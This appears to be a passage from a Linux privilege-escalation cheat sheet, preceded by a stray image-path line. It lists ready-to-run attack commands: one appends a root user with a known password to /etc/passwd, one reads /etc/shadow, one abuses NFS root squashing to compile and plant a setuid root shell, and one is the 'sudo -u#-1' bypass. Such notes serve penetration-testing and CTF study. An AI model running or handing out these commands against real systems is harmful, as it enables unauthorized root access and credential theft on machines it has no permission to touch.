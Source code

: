 -> Exploitation  
https://gtfobins.github.io/

#### Run commands as another user with permission through sudo [PrivEsc]
```
sudo -u <username> <command>
```

### Weak File Permissions / Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
ls -la /etc/shadow
```

-> Exploitation  
```
echo "user:$(openssl passwd password123):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing
-> Detection - VM Owned
``` 
cat /etc/exports
```

-> Viewing nfs directories with access - Attacker VM
```
showmount -e <ip>
```

-> Get nfs version - Attacker VM
```
rpcinfo <ip>
```

-> Mount - Attacker VM
```
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1
```

-> Creating and compiling file for privesc - Attacker VM
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

-> Exploitation - VM Owned
```
/tmp/x
id
```

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```
